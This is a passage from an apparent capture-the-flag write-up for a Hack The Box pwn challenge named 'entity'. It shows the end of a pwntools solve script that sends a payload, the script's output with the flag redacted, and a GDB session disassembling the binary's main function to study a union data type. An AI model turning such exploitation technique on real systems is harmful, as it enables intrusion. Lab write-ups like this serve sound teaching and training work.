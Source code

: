 ```shell
io.sendlineafter(b'>> ', payload)
io.sendlineafter(b'>> ', b'C')

io.interactive()
```

I execute it:

```shell
magor$ ./solve_entity.py 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
HTB{xxxxxxxxxxxxxxxxxxxxxxxxxxxx}
[*] Got EOF while reading in interactive
```



### Go beyond

We can dig deeper analyzing the data stored in memory with GDB. We already know that the `Union` datatype reference all fields to the same memory address but lets check it out:

```shell
magor$ gdb -q entity
Reading symbols from entity...
(No debugging symbols found in entity)
(gdb)➊b main
Breakpoint 1 at 0x1443
(gdb) r
Starting program: /ctf/2022-boo/2-pwn/pwn_entity/entity

Breakpoint 1, 0x0000555555555443 in main ()
(gdb) disass main
Dump of assembler code for function main:
   0x000055555555543f <+0>:     push   %rbp
   0x0000555555555440 <+1>:     mov    %rsp,%rbp
=> 0x0000555555555443 <+4>:     sub    $0x10,%rsp
   0x0000555555555447 <+8>:     mov    0x2c22(%rip),%rax        # 0x555555558070 <stdout@GLIBC_2.2.5>
   0x000055555555544e <+15>:    mov    $0x0,%ecx
   0x0000555555555453 <+20>:    mov    $0x2,%edx
   0x0000555555555458 <+25>:    mov    $0x0,%esi
   0x000055555555545d <+30>:    mov    %rax,%rdi
   0x0000555555555460 <+33>:    callq  0x555555555090 <setvbuf@plt>
   0x0000555555555465 <+38>:    movq   $0x0,0x2c20(%rip)        # 0x555555558090 <DataStore>
   0x0000555555555470 <+49>:    lea    0xc99(%rip),%rdi        # 0x555555556110
   0x0000555555555477 <+56>:    callq  0x555555555030 <puts@plt>
   0x000055555555547c <+61>:    mov    $0x0,%eax
➌ 0x0000555555555481 <+66>:    callq  0x5555555551a5 <menu> 
   0x0000555555555486 <+71>:    mov    %rax,-0x8(%rbp)
   0x000055555555548a <+75>:    mov    -0x8(%rbp),%eax
   0x000055555555548d <+78>:    cmp    $0x2,%eax
   0x0000555555555490 <+81>:    je     0x5555555554b8 <main+121>
   0x0000555555555492 <+83>:    cmp    $0x2,%eax
   0x0000555555555495 <+86>:    ja     0x55555555547c <main+61>
   0x0000555555555497 <+88>:    test   %eax,%eax
   0x0000555555555499 <+90>:    je     0x5555555554ac <main+109>
   0x000055555555549b <+92>:    cmp    $0x1,%eax
   0x000055555555549e <+95>:    jne    0x55555555547c <main+61>
   0x00005555555554a0 <+97>:    mov    -0x4(%rbp),%eax
   0x00005555555554a3 <+100>:   mov    %eax,%edi
   0x00005555555554a5 <+102>:   callq  0x5555555552ed <set_field>
```